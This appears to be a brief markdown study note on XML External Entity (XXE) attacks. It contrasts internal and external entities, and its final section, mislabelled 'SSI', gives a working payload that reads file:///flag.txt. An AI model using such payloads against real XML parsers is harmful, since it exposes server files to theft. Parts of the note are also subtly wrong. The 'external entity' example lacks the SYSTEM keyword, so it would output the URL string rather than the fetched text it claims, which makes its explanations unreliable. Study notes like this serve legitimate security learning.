 
## XXE (XML External Entities)
* DTD - Document Type Definition
* *Internal Entity*: an entity declared within the DTD (like a variable)
* *External Entity*: an entity declared outside the DTD (files, stuff on other websites)

---

### Internal entities
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY string "hey, don't read my diary" >
]>
<diary>
  <entry>&string;</entry>
</diary>
```

&nbsp;

prints
```text
hey, don't read my diary
```

---

### External entities
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY funCatFact "https://FunCatFact.com/generate" >
]>
<diary>
  <entry>&funCatFact;</entry>
</diary>
```

&nbsp;

prints
```text
Cats are asleep for 70% of their lives.
```

---

### SSI
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY flag SYSTEM "file:///flag.txt" >
]>
<diary>
  <entry>&flag;</entry>
</diary>
```
